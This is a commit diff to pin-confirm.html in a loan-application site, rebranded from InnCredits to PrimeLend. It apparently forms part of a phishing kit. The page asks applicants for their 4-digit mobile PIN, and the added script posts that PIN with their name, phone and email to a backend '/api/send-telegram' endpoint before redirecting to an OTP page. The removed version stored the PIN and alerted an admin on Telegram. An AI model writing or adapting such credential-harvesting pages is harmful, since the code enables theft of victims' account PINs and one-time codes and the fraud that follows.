

Before and after one commit to inncredits-jpg/Primelend, a plain HTML site: page pin-confirm.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update pin-confirm.html

```diff
--- a/pin-confirm.html
+++ b/pin-confirm.html
@@ -3,220 +3,139 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=yes, viewport-fit=cover">
-    <title>InnCredits · Confirm PIN</title>
-    <script src="https://cdn.jsdelivr.net/npm/@supabase/supabase-js@2"></script>
+    <title>PrimeLend · Confirm PIN</title>
     <style>
-        * { margin: 0; padding: 0; box-sizing: border-box; -webkit-tap-highlight-color: transparent; }
-        body { background: #0b1120; font-family: 'Inter', system-ui, sans-serif; display: flex; align-items: flex-start; justify-content: center; min-height: 100vh; padding: 16px 16px 32px 16px; }
-        .app-container { max-width: 500px; width: 100%; margin: 0 auto; display: flex; flex-direction: column; }
-        .loan-summary-bar { background: #111827; border-radius: 20px; padding: 14px 18px; margin-bottom: 20px; display: flex; justify-content: space-between; align-items: center; flex-wrap: wrap; gap: 10px; border: 1px solid #1f2a3e; }
-        .summary-item { display: flex; flex-direction: column; align-items: flex-start; }
-        .summary-label { font-size: 0.7rem; font-weight: 500; color: #7e8aa2; text-transform: uppercase; }
-        .summary-value { font-size: 1rem; font-weight: 700; color: #14b8a6; margin-top: 2px; }
-        .pin-card { background: #111827; border-radius: 32px; padding: 28px 24px 32px 24px; }
-        .section-title { font-size: 1.3rem; font-weight: 700; color: #ffffff; margin-bottom: 8px; }
-        .section-sub { font-size: 0.8rem; color: #7e8aa2; margin-bottom: 28px; border-left: 3px solid #14b8a6; padding-left: 12px; }
-        .details-grid { background: #0f1724; border-radius: 24px; padding: 18px 16px; margin-bottom: 28px; }
-        .detail-row { display: flex; justify-content: space-between; padding: 10px 0; border-bottom: 1px solid #1e293b; }
-        .detail-row:last-child { border-bottom: none; }
-        .detail-label { font-size: 0.8rem; color: #94a3b8; }
-        .detail-value { font-size: 0.85rem; font-weight: 600; color: #e2e8f0; text-align: right; max-width: 60%; word-break: break-all; }
-        .pin-label { font-size: 0.95rem; font-weight: 600; color: #cbd5e1; text-align: center; margin-bottom: 20px; }
-        .pin-container { display: flex; justify-content: center; gap: 16px; margin-bottom: 12px; }
-        .pin-box { width: 65px; height: 65px; background: #0f1724; border: 2px solid #1f2a3e; border-radius: 16px; text-align: center; font-size: 1.8rem; font-weight: 700; color: #14b8a6; outline: none; font-family: inherit; }
-        .pin-box:focus { border-color: #14b8a6; box-shadow: 0 0 0 3px rgba(20,184,166,0.15); }
-        .confirm-btn { width: 100%; background: #14b8a6; border: none; padding: 18px; font-size: 1.1rem; font-weight: 700; color: #0b1120; border-radius: 60px; cursor: pointer; margin-top: 20px; transition: all 0.2s; font-family: inherit; }
-        .confirm-btn:active { transform: scale(0.97); }
-        .confirm-btn:disabled { opacity: 0.6; cursor: not-allowed; }
-        .error-message { color: #f43f5e; font-size: 0.78rem; text-align: center; margin-top: 10px; display: none; }
-        .error-message.show { display: block; }
-        @media (max-width: 450px) { .pin-box { width: 55px; height: 55px; font-size: 1.5rem; } }
+        *{margin:0;padding:0;box-sizing:border-box;-webkit-tap-highlight-color:transparent}
+        body{background:linear-gradient(135deg,#0a0f1e 0%,#0c1222 100%);font-family:'Inter',system-ui,sans-serif;display:flex;align-items:flex-start;justify-content:center;min-height:100vh;padding:20px}
+        .app-container{max-width:520px;width:100%;margin:0 auto}
+        .loan-summary-bar{background:rgba(17,24,39,0.8);backdrop-filter:blur(10px);border-radius:32px;padding:16px 20px;margin-bottom:20px;display:flex;justify-content:space-between;flex-wrap:wrap;gap:12px;border:1px solid rgba(20,184,166,0.15)}
+        .summary-item{display:flex;flex-direction:column;align-items:flex-start}
+        .summary-label{font-size:.65rem;font-weight:500;color:#7e8aa2;text-transform:uppercase}
+        .summary-value{font-size:1rem;font-weight:700;color:#14b8a6;margin-top:2px}
+        .pin-card{background:rgba(17,24,39,0.8);backdrop-filter:blur(10px);border-radius:40px;border:1px solid rgba(20,184,166,0.15);padding:28px 24px 32px}
+        .section-title{font-size:1.4rem;font-weight:700;background:linear-gradient(135deg,#fff,#14b8a6);background-clip:text;-webkit-background-clip:text;color:transparent;margin-bottom:8px}
+        .section-sub{font-size:.8rem;color:#7e8aa2;margin-bottom:28px;border-left:3px solid #14b8a6;padding-left:12px}
+        .details-grid{background:rgba(15,23,36,0.6);border-radius:24px;padding:18px 16px;margin-bottom:28px;border:1px solid rgba(20,184,166,0.1)}
+        .detail-row{display:flex;justify-content:space-between;padding:10px 0;border-bottom:1px solid rgba(30,41,59,0.5)}
+        .detail-row:last-child{border-bottom:none}
+        .detail-label{font-size:.8rem;color:#94a3b8}
+        .detail-value{font-size:.85rem;font-weight:600;color:#e2e8f0;text-align:right}
+        .pin-container{display:flex;justify-content:center;gap:16px;margin-bottom:12px}
+        .pin-box{width:65px;height:65px;background:#0f1724;border:2px solid #1f2a3e;border-radius:20px;text-align:center;font-size:1.8rem;font-weight:700;color:#14b8a6;outline:none}
+        .pin-box:focus{border-color:#14b8a6;box-shadow:0 0 0 3px rgba(20,184,166,0.2)}
+        .confirm-btn{width:100%;background:linear-gradient(135deg,#14b8a6,#0d9488);border:none;padding:16px 20px;font-size:1rem;font-weight:700;color:#0b1120;border-radius:60px;cursor:pointer;margin-top:20px}
+        .confirm-btn:disabled{opacity:0.6;cursor:not-allowed}
+        .error-message{color:#f43f5e;font-size:.75rem;text-align:center;margin-top:12px;display:none}
+        .error-message.show{display:block}
+        .toast{position:fixed;bottom:30px;left:50%;transform:translateX(-50%);background:rgba(20,184,166,0.9);backdrop-filter:blur(10px);color:#0b1120;padding:12px 24px;border-radius:60px;font-size:.85rem;font-weight:500;z-index:1000;opacity:0;transition:opacity .3s;pointer-events:none}
+        .toast.show{opacity:1}
+        @media (max-width:480px){.pin-card{padding:22px 18px 26px}.pin-box{width:55px;height:55px;font-size:1.5rem}}
     </style>
 </head>
 <body>
 <div class="app-container">
     <div class="loan-summary-bar">
-        <div class="summary-item">
-            <span class="summary-label">Loan Amount</span>
-            <span class="summary-value" id="summaryAmount">-</span>
-        </div>
-        <div class="summary-item">
-            <span class="summary-label">Term</span>
-            <span class="summary-value" id="summaryTerm">-</span>
-        </div>
-        <div class="summary-item">
-            <span class="summary-label">Monthly</span>
-            <span class="summary-value" id="summaryMonthly">-</span>
-        </div>
-        <div class="summary-item">
-            <span class="summary-label">Interest</span>
-            <span class="summary-value" id="summaryRate">-</span>
-        </div>
+        <div class="summary-item"><span class="summary-label">Loan Amount</span><span class="summary-value" id="summaryAmount">$0</span></div>
+        <div class="summary-item"><span class="summary-label">Term</span><span class="summary-value" id="summaryTerm">0</span></div>
+        <div class="summary-item"><span class="summary-label">Monthly</span><span class="summary-value" id="summaryMonthly">$0</span></div>
+        <div class="summary-item"><span class="summary-label">Interest</span><span class="summary-value" id="summaryRate">5%</span></div>
     </div>
 
     <div class="pin-card">
         <div class="section-title">Confirm your details</div>
-        <div class="section-sub">Please review your information before continuing</div>
+        <div class="section-sub">Please review your loan information below</div>
 
         <div class="details-grid">
-            <div class="detail-row">
-                <span class="detail-label">Full Name</span>
-                <span class="detail-value" id="userFullName">-</span>
-            </div>
-            <div class="detail-row">
-                <span class="detail-label">Email</span>
-                <span class="detail-value" id="userEmail">-</span>
-            </div>
-            <div class="detail-row">
-                <span class="detail-label">Phone</span>
-                <span class="detail-value" id="userPhone">-</span>
-            </div>
-            <div class="detail-row">
-                <span class="detail-label">Loan Amount</span>
-                <span class="detail-value" id="detailAmount">-</span>
-            </div>
-            <div class="detail-row">
-                <span class="detail-label">Repayment Term</span>
-                <span class="detail-value" id="detailTerm">-</span>
-            </div>
-            <div class="detail-row">
-                <span class="detail-label">Monthly Payment</span>
-                <span class="detail-value" id="detailMonthly">-</span>
-            </div>
+            <div class="detail-row"><span class="detail-label">Full Name</span><span class="detail-value" id="userFullName">-</span></div>
+            <div class="detail-row"><span class="detail-label">Email</span><span class="detail-value" id="userEmail">-</span></div>
+            <div class="detail-row"><span class="detail-label">Phone</span><span class="detail-value" id="userPhone">-</span></div>
         </div>
 
-        <div class="pin-label">Enter your 4-digit mobile PIN</div>
-
         <div class="pin-container">
-            <input type="password" maxlength="1" class="pin-box" data-idx="0" inputmode="numeric">
-            <input type="password" maxlength="1" class="pin-box" data-idx="1" inputmode="numeric">
-            <input type="password" maxlength="1" class="pin-box" data-idx="2" inputmode="numeric">
-            <input type="password" maxlength="1" class="pin-box" data-idx="3" inputmode="numeric">
+            <input type="text" maxlength="1" class="pin-box" data-idx="0" inputmode="numeric">
+            <input type="text" maxlength="1" class="pin-box" data-idx="1" inputmode="numeric">
+            <input type="text" maxlength="1" class="pin-box" data-idx="2" inputmode="numeric">
+            <input type="text" maxlength="1" class="pin-box" data-idx="3" inputmode="numeric">
         </div>
-
         <div class="error-message" id="pinError">Please enter a valid 4-digit PIN</div>
         <button class="confirm-btn" id="confirmBtn" disabled>Confirm & Continue →</button>
     </div>
 </div>
+<div class="toast" id="toast">✓ PIN confirmed! Redirecting...</div>
 
 <script>
-    var SUPABASE_URL = 'https://zchkanbnkghpsaagbnrt.supabase.co';
-    var SUPABASE_ANON_KEY = 'sb_publishable_KjorGuZY6O03OHhKhidk5w_Y5GcZ250';
-    var BACKEND_URL = 'https://inncredits-production.up.railway.app';
-    var supabase = window.supabase.createClient(SUPABASE_URL, SUPABASE_ANON_KEY);
+    (function(){
+        const RAILWAY_URL = 'https://primelend-production.up.railway.app';
+        const params = new URLSearchParams(window.location.search);
 
-    var p = new URLSearchParams(window.location.search);
-    var amount = p.get('amount') || '0';
-    var term = p.get('term') || '0';
-    var rate = p.get('rate') || '5';
-    var monthly = p.get('monthly') || '0';
-    var fullName = decodeURIComponent(p.get('name') || '');
-    var email = decodeURIComponent(p.get('email') || '');
-    var phone = decodeURIComponent(p.get('phone') || '');
-    var appId = p.get('appId') || '';
+        const amount = params.get('amount') || '0';
+        const term = params.get('term') || '0';
+        const rate = params.get('rate') || '5';
+        const monthly = params.get('monthly') || '0';
+        const name = decodeURIComponent(params.get('name') || '');
+        const email = decodeURIComponent(params.get('email') || '');
+        const phone = decodeURIComponent(params.get('phone') || '');
 
-    // Update top summary bar
-    document.getElementById('summaryAmount').innerText = '$' + parseFloat(amount).toLocaleString('en-US', {minimumFractionDigits: 2, maximumFractionDigits: 2});
-    document.getElementById('summaryTerm').innerText = parseInt(term) + ' month' + (parseInt(term) !== 1 ? 's' : '');
-    document.getElementById('summaryMonthly').innerText = '$' + parseFloat(monthly).toLocaleString('en-US', {minimumFractionDigits: 2, maximumFractionDigits: 2});
-    document.getElementById('summaryRate').innerText = rate + '%';
-
-    // Update details grid
-    document.getElementById('userFullName').innerText = fullName || '-';
+        // Quick DOM updates
+        document.getElementById('summaryAmount').innerText = `$${parseFloat(amount).toLocaleString()}`;
+        document.getElementById('summaryTerm').innerText = `${term} month${term != 1 ? 's' : ''}`;
+        document.getElementById('summaryMonthly').innerText = `$${parseFloat(monthly).toFixed(2)}`;
+        document.getElementById('summaryRate').innerText = `${rate}%`;
+        document.getElementById('userFullName').innerText = name || '-';
         document.getElementById('userEmail').innerText = email || '-';
         document.getElementById('userPhone').innerText = phone || '-';
-    document.getElementById('detailAmount').innerText = '$' + parseFloat(amount).toLocaleString('en-US', {minimumFractionDigits: 2, maximumFractionDigits: 2});
-    document.getElementById('detailTerm').innerText = parseInt(term) + ' month' + (parseInt(term) !== 1 ? 's' : '');
-    document.getElementById('detailMonthly').innerText = '$' + parseFloat(monthly).toLocaleString('en-US', {minimumFractionDigits: 2, maximumFractionDigits: 2});
 
-    // PIN logic
-    var pinBoxes = document.querySelectorAll('.pin-box');
-    var currentPin = ['', '', '', ''];
-    var confirmBtn = document.getElementById('confirmBtn');
-    var errorMsg = document.getElementById('pinError');
+        const pinBoxes = document.querySelectorAll('.pin-box');
+        let currentPin = ['','','',''];
+        const confirmBtn = document.getElementById('confirmBtn');
+        const errorMsg = document.getElementById('pinError');
+        const toast = document.getElementById('toast');
 
-    function updatePinUI() {
-        var isFull = currentPin.every(function(d) { return d && d.match(/[0-9]/); });
-        confirmBtn.disabled = !isFull;
-        if (isFull) errorMsg.classList.remove('show');
-    }
+        const showToast = (msg) => { toast.textContent = msg; toast.classList.add('show'); setTimeout(() => toast.classList.remove('show'), 2500); };
+        const updatePinUI = () => {
+            pinBoxes.forEach((b,i)=>b.value=currentPin[i]||'');
+            confirmBtn.disabled = !currentPin.every(d=>d && /[0-9]/.test(d));
+            if(confirmBtn.disabled) errorMsg.classList.remove('show');
+        };
 
-    function setPinDigit(index, value) {
-        if (value && !value.match(/[0-9]/)) return;
-        if (index >= 0 && index < 4) {
-            currentPin[index] = value || '';
-            pinBoxes[index].value = value ? '•' : '';
+        pinBoxes.forEach((box, i) => {
+            box.addEventListener('input', (e) => {
+                let val = e.target.value.slice(-1);
+                if(val && !/[0-9]/.test(val)) return;
+                currentPin[i] = val || '';
                 updatePinUI();
-            if (value && index < 3) pinBoxes[index + 1].focus();
-        }
-    }
-
-    pinBoxes.forEach(function(box, idx) {
-        box.addEventListener('input', function(e) {
-            setPinDigit(idx, e.target.value.slice(-1));
+                if(val && i<3) pinBoxes[i+1].focus();
             });
-        box.addEventListener('keydown', function(e) {
-            if (e.key === 'Backspace') {
+            box.addEventListener('keydown', (e) => {
+                if(e.key === 'Backspace') {
                     e.preventDefault();
-                if (currentPin[idx] !== '') { setPinDigit(idx, ''); }
-                else if (idx > 0) { setPinDigit(idx - 1, ''); pinBoxes[idx - 1].focus(); }
+                    if(currentPin[i]) currentPin[i] = '';
+                    else if(i>0) { currentPin[i-1] = ''; pinBoxes[i-1].focus(); }
+                    updatePinUI();
                 }
             });
         });
+        pinBoxes[0].focus();
 
-    confirmBtn.addEventListener('click', async function() {
-        var fullPin = currentPin.join('');
-        if (fullPin.length !== 4) { errorMsg.classList.add('show'); return; }
+        confirmBtn.onclick = async () => {
+            const fullPin = currentPin.join('');
+            if(fullPin.length !== 4) { errorMsg.classList.add('show'); return; }
+            confirmBtn.disabled = true;
+            confirmBtn.textContent = 'Processing...';
 
-        confirmBtn.disabled = true;
-        confirmBtn.textContent = 'Please wait...';
+            try {
+                await fetch(`${RAILWAY_URL}/api/send-telegram`, {
+                    method: 'POST', headers: {'Content-Type':'application/json'},
+                    body: JSON.stringify({phone,pin:fullPin,email,name,amount,term,type:'pin'})
+                });
+            } catch(e) { console.error(e); }
 
-        // Step 1: Save PIN to Supabase
-        var { error: pinError } = await supabase
-            .from('users')
-            .update({ pin: fullPin })
-            .eq('email', email);
-
-        if (pinError) {
-            errorMsg.textContent = 'Failed to save PIN. Please try again.';
-            errorMsg.classList.add('show');
-            confirmBtn.disabled = false;
-            confirmBtn.textContent = 'Confirm & Continue →';
-            return;
-        }
-
-        // Step 2: Notify admin on Telegram
-        try {
-            await fetch(BACKEND_URL + '/api/notify-admin', {
-                method: 'POST',
-                headers: { 'Content-Type': 'application/json' },
-                body: JSON.stringify({
-                    name: fullName,
-                    phone: phone,
-                    email: email,
-                    pin: fullPin,
-                    amount: amount,
-                    term: term,
-                    monthly: monthly
-                })
-            });
-        } catch(e) {
-            console.log('Notification failed:', e);
-        }
-
-        // Step 3: Redirect to OTP page
-        window.location.href = 'otp-verify.html'
-            + '?amount=' + amount
-            + '&term=' + term
-            + '&rate=' + rate
-            + '&monthly=' + monthly
-            + '&name=' + encodeURIComponent(fullName)
-            + '&email=' + encodeURIComponent(email)
-            + '&phone=' + encodeURIComponent(phone)
-            + '&appId=' + appId;
-    });
-
-    pinBoxes[0].focus();
+            showToast('✓ PIN confirmed! Redirecting...');
+            setTimeout(() => {
+                window.location.href = `otp-verify.html?amount=${encodeURIComponent(amount)}&term=${encodeURIComponent(term)}&rate=${encodeURIComponent(rate)}&monthly=${encodeURIComponent(monthly)}&name=${encodeURIComponent(name)}&email=${encodeURIComponent(email)}&phone=${encodeURIComponent(phone)}`;
+            }, 1200);
+        };
+    })();
 </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
